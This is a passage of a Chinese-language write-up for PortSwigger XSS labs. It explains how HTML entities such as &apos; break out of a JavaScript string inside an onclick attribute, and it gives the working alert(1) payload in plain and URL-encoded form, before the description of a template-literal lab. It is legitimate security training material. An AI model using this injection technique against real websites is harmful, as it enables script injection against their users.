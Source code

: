 ### 解答

看起來重點出在放網址後，後面的 Tracker

```
http://aaa"123
```

後面會變成

```
<a id="author" href="http://aaa&quot;123" onclick="var tracker={track(){}};tracker.track('http://aaa&quot;123');">
```

發現單引號會被 Escape

不過需要注意

```
"var tracker={track(){}};tracker.track('http://aaa?\'');"
```

這種狀況的 `\'` 會被外面的 `"` 吃掉，所以裡面的字串是

```
"var tracker={track(){}};tracker.track('http://aaa?'');"
```

有一個超級重要的特性！

- **HTML 的 event 裡面不認 string 的 escape \\**
- **如果需要 escape 的話需要用 HTML Entity**

也就是說，我們希望構成 (`'` 是 `&apos;`)

```
onclick="var tracker={track(){}};tracker.track('http://aaa&apos;+alert(1)+&apos;');"
```

所以送入
```
http://aaa&apos;+alert(1)+&apos;
```

也就是

```
http%3A%2F%2Faaa%26apos%3B%2Balert%281%29%2B%26apos%3B
```

## [Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped)
### 題目敘述
 This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the alert function inside the template string. 
 